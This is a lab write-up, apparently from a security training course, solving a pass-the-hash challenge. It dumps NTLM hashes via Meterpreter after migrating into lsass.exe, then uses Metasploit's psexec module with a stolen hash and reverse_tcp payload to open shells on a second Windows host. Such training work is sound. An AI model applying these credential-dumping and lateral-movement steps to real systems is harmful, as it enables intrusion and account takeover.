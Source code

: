 # **Challenge 7: Passing the Hash**
!!! note ""
## **Procedure:**

With one Windows machine down and one left to go, we can try a Pass The Hash attack.

- From your established Meterpreter session, perform a hash dump and save the results.
- Exit (or background) your Meterpreter session to get back into the main Metasploit console.
- Using the same exploit and payload modules, set your RHOSTS target to the remaining Windows server IP.
- Test each username and hash combination you found on the first Windows server until you gain a Meterpreter on the final server. 

## **Solution:**

### Runing `hashdump` from the meterpreter shell (Windows VM 172.31.43.103)

- Migrating to lsass.exe (PID:588) to perform the hashdump

```bash linenums="1" hl_lines="1 2 3 48 51-56"
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 272   4     smss.exe              x64   0
 348   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 352   344   csrss.exe             x64   0
 452   444   csrss.exe             x64   1
 472   344   wininit.exe           x64   0
 512   444   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 580   472   services.exe          x64   0
 588   472   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 672   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 728   580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 820   512   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 828   512   dwm.exe               x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 952   580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 960   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1008  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1036  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1164  580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1356  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1656  580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1768  580   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1836  580   dcvserver.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvserver.exe
 1876  580   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1896  580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1916  580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1944  580   MsMpEng.exe           x64   0
 2544  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 2564  1876  ssm-agent-worker.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\ssm-agent-worker.exe
 2784  2564  conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3052  1836  dcvagent.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvagent.exe
 3060  1836  dcvagent.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvagent.exe
 3092  3144  conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3144  2488  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 3324  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 3752  580   msdtc.exe             x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe

meterpreter > migrate 588
[*] Migrating from 3144 to 588...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa0969ce61a2e254b7fb2a44e1d5ae7a:::
Administrator2:1009:aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
fstack:1008:aad3b435b51404eeaad3b435b51404ee:0cc79cd5401055d4732c9ac4c8e0cfed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 
```

### Once the firs session was send it to the background, another meterpreter session will be created targeting the last windows machine (Windows VM 172.31.45.94)

- Setting the options (RHOST, PAYLOAD, SMB)

```bash linenums="1" hl_lines="3 12"
msf6 > search windows/smb/psexec

Matching Modules
================

   #  Name                        Disclosure Date  Rank    Check  Description
   -  ----                        ---------------  ----    -----  -----------
   0  exploit/windows/smb/psexec  1999-01-01       manual  No     Microsoft Windows Authenticated User Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/psexec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator2
SMBUser => Administrator2
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab
SMBPass => aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOST 172.31.39.126
RHOST => 172.31.39.126
msf6 exploit(windows/smb/psexec) > run
```

- Running the `psexec` module


```bash linenums="1" hl_lines="3 12"
[*] Started reverse TCP handler on 172.31.39.126:4444 
[*] 172.31.45.94:445 - Connecting to the server...
[*] 172.31.45.94:445 - Authenticating to 172.31.45.94:445 as user 'Administrator2'...
[*] Sending stage (175686 bytes) to 172.31.45.94
[*] 172.31.45.94:445 - Selecting PowerShell target
[*] 172.31.45.94:445 - Executing the payload...
[+] 172.31.45.94:445 - Service start timed out, OK if running a command or non-service executable...
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
[*] Sending stage (175686 bytes) to 172.31.45.94
[*] Meterpreter session 2 opened (172.31.39.126:4444 -> 172.31.45.94:50000) at 2024-05-08 04:27:27 +0000

meterpreter > [*] Meterpreter session 3 opened (172.31.39.126:4444 -> 172.31.45.94:50002) at 2024-05-08 04:27:28 +0000
sysinfo
Computer        : EC2AMAZ-L3OOUG8
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > 
```

### The meterpreter shell was deployed sucessfully in the last windows machine (Windows VM 172.31.45.94)

![alt text](images/Pasted%20image%2020240508002959.png)






!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_6/" class="md-button md-button--primary">Previous: Challenge 6</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/report/" class="md-button md-button--primary">Next: Report</a>
</div>



